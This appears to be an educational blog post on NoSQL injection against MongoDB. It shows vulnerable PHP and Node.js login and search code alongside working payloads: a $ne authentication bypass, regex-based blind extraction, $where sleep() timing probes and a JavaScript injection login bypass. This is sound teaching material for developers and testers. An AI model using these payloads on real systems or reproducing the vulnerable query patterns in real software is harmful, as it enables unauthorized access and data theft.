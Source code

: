 ```yaml
---
title: "NoSQL Injection Attacks"
date: 2025-02-18
draft: false
description: "Introduction into NoSQL Injection Attacks"
---
```

<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.5.1/css/all.min.css">

## <i class="fa-solid fa-syringe"></i> Overview
<span class="text-primary-400">NoSQL</span> databases like MongoDB, Couchbase, and Cassandra have gained immense popularity due to their flexibility, scalability, and performance benefits over traditional relational databases. However, with this rise in adoption comes an increase in security vulnerabilities. NoSQL injection attacks occur when <span class="text-primary-400">untrusted user input is improperly handled and executed</span> within a NoSQL query, allowing an attacker to manipulate database operations. These vulnerabilities are <span class="text-primary-400">as dangerous as traditional SQL injections</span> but are often overlooked due to the misconception that NoSQL databases are inherently secure.

## <i class="fa-solid fa-compass"></i> Types of NoSQL Injection
NoSQL injection attacks can be categorized based on how the attacker interacts with the database and the feedback received. Understanding these types is crucial for both developers and security professionals to identify and mitigate potential threats.

### In-Band Injection
In-Band Injection involves the attacker using the <span class="text-primary-400">same communication channel</span> to both launch the attack and gather results. This method is straightforward because the feedback is immediate.

<b class="text-primary-400">Example Scenario</b>: Consider a web application using MongoDB that accepts user login credentials via an HTTP `POST` request. The vulnerable PHP code might look like this:

```php
// Vulnerable PHP code
$collection->find([
    'username' => $_POST['username'],
    'password' => $_POST['password']
]);

$collection->find($query);
```

An attacker can craft an HTTP request to exploit this unsanitized input:

{{< highlight http "linenos=false,hl_lines=5" >}}
POST /login.php HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded

username=admin&password[$ne]=null
{{< /highlight >}}

<b class="text-primary-400">Explanation</b>: PHP Array Syntax -- When writing MongoDB queries in PHP, arrays represent MongoDB’s query structure. The syntax `password[$ne]=null` translates to an associative array in PHP:

```php
$query = [
    'password' => [
        '$ne' => null
    ]
];
```

Resulting Query:

```php
db.users.findOne({
    username: "admin",
    password: { "$ne": null }
});
```

Since the password is <span class="text-primary-400">not null</span>, the condition is <span class="text-primary-400">true</span>, and the attacker gains unauthorized access as the admin.

### Blind Injection
Blind Injections occur when an attacker <span class="text-primary-400">cannot see the direct results</span> of their injected queries but can <span class="text-primary-400">infer information based on the application’s responses</span>, such as differences in content, HTTP status codes, error messages, or response times.

#### Boolean-Based
In a <span class="text-primary-400">Boolean-Based Blind Injection</span>, the attacker sends <span class="text-primary-400">queries that evaluate to either true or false</span> and observes the application’s behavior to infer information about the database.

<b class="text-primary-400">Example Scenario</b>: Consider a search functionality with a NoSQL Injection vulnerability, where users can search for products. An attacker sends a request with a crafted search term:

```HTTP
GET /search.php?search[$regex]=^S.* HTTP/1.1
Host: example.com
```

If a product starting with the letter “<span class="text-primary-400">S</span>” exists:

{{< highlight http "linenos=false,hl_lines=5" >}}
HTTP/1.1 200 OK
Content-Type: text/html

{
  Exists: true
}
{{< /highlight >}}


Otherwise:

{{< highlight http "linenos=false,hl_lines=4" >}}
HTTP/1.1 200 OK
Content-Type: text/html

No products found.
{{< /highlight >}}

To extract the full name of the product, the attacker continues testing each subsequent character to reconstruct the produc name:

```
search[$regex]=^Se.*  ✔️
search[$regex]=^Sea.* ✖️
search[$regex]=^Sec.* ✔️
…
search[$regex]=^SecretProduct$
```

The `$` indicates the end of a string, verifying if the entire word is correct.

#### Time-Based
In a <span class="text-primary-400">Time-Based Blind Injection</span>, the attacker sends queries that cause the server to <span class="text-primary-400">delay its response when certain conditions are true</span>. By measuring these response times, the attacker can infer information about the database.

<b class="text-primary-400">Example Scenario</b>: Assume a NoSQL Injection vulnerability in the username parameter:

```HTTP
POST /login HTTP/1.1
Host: example.com
Content-Type: application/json

{
    "username": {
       "$where": "function() { if(this.username == 'admin') { sleep(5000); } return true; }"
    },
    "password": "randompassword"
}
```

<b class="text-primary-400">Explanation</b>: JavaScript Function -- The `this` keyword refers to the current document being evaluated in the collection.

```JS
if(this.username == 'admin') { sleep(5000); }
```

<b class="text-primary-400">Behavior</b>: If `this.username == 'admin'` evaluates to true, the function calls `sleep(5000)` to delay the response by 5 seconds, indicating that the username exists. Otherwise, the response time remains normal.

An attacker can enumerate usernames or other fields character by character using a similar method:

```Json
{
    "username": {
        "$where": "function() { if (this.username[0] == 'a') { sleep(5000); } return true; }"
    },
    "password": "irrelevant"
}
```

By systematically testing each character position, the attacker can reconstruct sensitive information.

### Server-Side JavaScript Injection (<span class="text-primary-400">SSJI</span>)
MongoDB allows the use of JavaScript expressions in queries via the `$where` operator. If not handled securely, this feature can be exploited.

<b class="text-primary-400">Example Scenario</b>: Consider the following MongoDB query in a Node.js application:

```JS
collection.findOne({
  $where: `this.username == '${username}' && this.password == '${password}'`
}, function(err, user) {
    if (user) {
        res.send('Logged in as ' + user.username);
    } else {
        res.send('Authentication failed');
    }
});
```

An attacker can manipulate the `username` field to inject malicious code:

```HTTP
POST /login HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded

username=admin' || true //&password=anything
```

Resulting Query:

```JS
db.users.findOne({
    $where: "this.username == 'admin' || true // ' && this.password == 'anything'"
});
```

Effect: The condition `this.username == 'admin' || true` always evaluates to true, allowing the attacker to bypass authentication.

<b class="text-primary-400">Further Exploitation</b>: Attackers can use injections like `" || ""=="` or `" || true || ""=="` to evaluate the entire query to true. They can also enumerate fields using functions like `match($regex)` and the character-by-character approach mentioned earlier.